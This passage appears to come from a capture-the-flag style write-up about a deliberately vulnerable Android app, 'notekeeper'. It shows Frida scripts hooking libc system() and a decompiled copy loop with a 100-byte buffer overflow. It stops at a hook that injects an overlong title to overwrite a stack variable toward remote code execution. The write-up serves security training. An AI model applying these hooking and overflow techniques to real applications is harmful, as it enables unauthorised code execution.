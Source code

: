 ```js
// hook.js
 function intercept_nativeCall(lib,fun){
    let addr = Module.findExportByName(lib,fun);
    Interceptor.attach(addr, {
      onEnter: function (args) {
        console.log(fun," -> Args: ", args[0].readUtf8String())
      }
    })
  }

intercept_nativeCall("libc.so", "system")
```

Running the application with Frida using our script:
```bash 
frida -Uf com.mobilehackinglab.notekeeper -l hook.js
```

Gives this output: 
```
system  -> Args:  Log "Note added at $(date)"
```


Let's look into the code again, this time with a closer eye to try to understand the buffer overflow vulnerability. When examining this loop:
```c
for (local_2a8 = 1; local_2a8 < local_4c; local_2a8 = local_2a8 + 1) {
      local_2a4[local_2a8] = (char)local_48[local_2a8];
    }
```

We can see that the content of the note's title is being written into the variable `local_2a4` character by character. However, there is a problem here: this variable has a size of only 100 characters.

From this observation, we can identify a buffer overflow vulnerability because we can write more than 100 characters into this variable.

So, let's attempt to override the content of the stack in order to manipulate the value of `acStack_240` to achieve Remote Code Execution.

Let's create a Frida script that generates a string of 100 elements and then observe if, on the 101st position, we start to override the `acStack_240` value.

Let's update our Frida script to look like this:
```js
// hook.js
function intercept_nativeCall(lib,fun){
    let addr = Module.findExportByName(lib,fun);
    Interceptor.attach(addr, {
      onEnter: function (args) {
        console.log(fun," -> Args: ", args[0].readUtf8String())
      }
    })
  }

intercept_nativeCall("libc.so", "system")


Java.perform(function() {

    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    MainActivity["parse"].implementation = function (title) {


        title = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb"
```